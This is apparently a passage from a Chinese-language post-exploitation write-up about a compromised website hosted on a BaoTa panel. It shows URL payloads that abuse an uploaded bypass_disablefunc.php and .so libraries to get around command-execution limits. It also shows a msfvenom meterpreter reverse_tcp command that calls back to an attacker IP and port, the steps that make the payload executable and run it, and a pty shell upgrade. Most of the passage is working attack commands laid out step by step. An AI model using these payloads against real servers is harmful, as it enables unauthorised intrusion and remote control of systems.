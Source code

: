 ## 宝塔命令执行提权

上面通过模板编辑拿到的shell不能执行命令

![Untitled](https://i.loli.net/2021/10/03/WZo93aLSxbQNzdl.png)

上传bypass_disablefunc.php、bypass_disablefunc_x64.so、bypass_disablefunc_x86.so到根目录，然后通过下面的payload执行ifconfig命令，这样可以绕过宝塔对命令执行的限制 

```python
www.ddd4.com/bypass_disablefunc.php?cmd=ifconfig&outpath=/tmp/xx&sopath=/www/wwwroot/www.ddd4.com/bypass_disablefunc_x64.so
```

![Untitled](https://i.loli.net/2021/10/03/EcpxSRqBidZJ6te.png)

## msf可交互shell

既然已经getshell也可以执行命令了，就可以尝试上传个反向shell，创建一个可交互式的shell

首先生成反向shell程序

```python
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.128 LPORT=13777 -f elf > ddd4
```

![Untitled](https://i.loli.net/2021/10/03/O3KofIvtJ74h6DS.png)

先通过菜刀把反向shell程序上传到根目录，然后对反向shell程序进行提权，默认没有执行权限，这里提权就用上了刚才用的宝塔命令执行绕过脚本

```python
http://www.ddd4.com/bypass_disablefunc.php?cmd=chmod%20777%20ddd4&outpath=/tmp/xx&sopath=/www/wwwroot/www.ddd4.com/bypass_disablefunc_x64.so
```

现在有了执行权限

![Untitled](https://i.loli.net/2021/10/03/azTAhC4MFrd6Z7c.png)

msf进行监听

![Untitled](https://i.loli.net/2021/10/03/3tY2mhHoJCjafPW.png)

执行ddd4

```python
http://www.ddd4.com/bypass_disablefunc.php?cmd=./ddd4&outpath=/tmp/xx&sopath=/www/wwwroot/www.ddd4.com/bypass_disablefunc_x64.so
```

msf反弹shell成功 

![Untitled](https://i.loli.net/2021/10/03/XCRA3N7ajg4ukmr.png)

为了更方便的操作，在msf里面可以切换shell

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```
